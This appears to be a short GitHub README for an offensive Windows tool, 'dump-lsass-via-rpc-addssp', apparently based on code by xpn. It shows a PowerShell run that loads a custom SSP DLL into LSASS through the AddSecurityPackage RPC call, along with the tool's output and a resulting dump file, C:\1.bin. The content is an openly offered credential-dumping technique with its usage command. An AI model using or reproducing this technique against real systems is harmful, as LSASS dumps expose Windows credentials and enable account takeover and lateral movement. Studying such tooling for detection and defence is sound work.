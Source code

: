 # dump-lsass-via-rpc-addssp

Code from [xpn](https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e)

Use module `rpccall` (`AddSecurityPackage` RPC call) to add(inject) SSP DLL

```
PS C:\> .\rpccall C:\lsa.dll

AddSecurityPackage Raw RPC Example... by @_xpn_

[*] Building RPC packet
[*] Connecting to lsasspirpc RPC service
[*] Sending SspirConnectRpc call
[*] Sending SspirCallRpc call
[*] Error code 0x6c6 returned, which is expected if DLL load returns FALSE
PS C:\> ls C:\1.bin
1.bin
```

***

The `sspi_h.h` and `sspi_c.cpp` are generated from sspicli.dll via [TypeLibInfo](https://www.codeproject.com/Articles/276450/Generating-IDL-and-Manifest-Files-with-TypeLibInfo)
